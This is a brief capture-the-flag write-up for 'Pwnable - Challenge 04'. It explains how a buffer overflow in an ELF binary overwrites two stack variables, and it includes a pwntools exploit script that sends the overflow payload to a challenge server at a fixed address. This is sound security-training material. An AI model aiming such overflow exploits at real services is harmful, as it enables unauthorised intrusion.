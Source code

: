 # Pwnable - Challenge 04

This challenge was an elf file.

Flag was stored on server.

Binary was receive an any user input, and return "Yes, my wishes ( c0ffee, cafe) come true".

i try to send a lot of "A" charactor to observe behavior of binary.

![Pasted image 20221001124458](./pwn-challenge04.assets/Pasted image 20221001124458.png)

As aspect. When i send a lot of charactor it's was replace value of `0xc0ffee` and `0xcafe`

Charactor "A" was 41 in Hex

![image-20221003211802248](./pwn-challenge04.assets/image-20221003211802248.png)

Decompile binary with ghida, and found that we need to replace variable local_c and local 10 to `0xbe91ce` and `0xf3eebee3`

Break payload into \x format

```
\xbe\x91\xce\xf3\xee\xbe\xe3
```

And reverse an order of payload

```
\xe3\xbe\xee\xf3\xce\x91\xbe
```

Create an exploit with [pwntools](https://github.com/Gallopsled/pwntools)

```
from pwn import *

io = remote('43.229.151.195', 57794)

io.recvuntil("\n")
io.recvuntil("? ")
# \xbe\x2e\xce
# \xf3\xee\xbe\xe3

io.sendline(b'AAAAAAAAAAAAAAAAAAAAAAAa\xe3\xbe\xee\xf3\xce\x91\xbe')
io.recvline()
io.recvline()
```

```
python3 exploit.py DEBUG
```

![Pasted image 20221001131305](./pwn-challenge04.assets/Pasted image 20221001131305.png)

